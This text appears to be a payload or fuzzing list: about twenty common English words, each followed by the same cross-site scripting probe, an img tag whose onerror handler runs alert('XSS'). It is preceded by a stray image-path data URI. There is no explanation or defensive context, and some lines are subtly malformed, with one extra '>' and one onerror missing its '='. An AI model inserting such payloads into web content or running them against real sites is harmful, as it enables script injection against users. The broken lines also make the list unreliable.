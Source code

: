 the <img src="x" onerror=alert("XSS")>
be <img src="x" onerror=alert("XSS")>
to <img src="x" onerror=alert("XSS")>
of <img src="x" onerror=alert("XSS")>
and <img src="x" onerror=alert("XSS")>
a <img src="x" onerror=alert("XSS")>
in <img src="x" onerror=alert("XSS")>>
that <img src="x" onerror=alert("XSS")>
have <img src="x" onerror=alert("XSS")>
I <img src="x" onerror=alert("XSS")>
it <img src="x" onerror=alert("XSS")>
for <img src="x" onerror=alert("XSS")>
not <img src="x" onerror=alert("XSS")>
on <img src="x" onerroralert("XSS")>
with <img src="x" onerror=alert("XSS")>
he <img src="x" onerror=alert("XSS")>
as <img src="x" onerror=alert("XSS")>
you <img src="x" onerror=alert("XSS")>
do <img src="x" onerror=alert("XSS")>
at <img src="x" onerror=alert("XSS")>
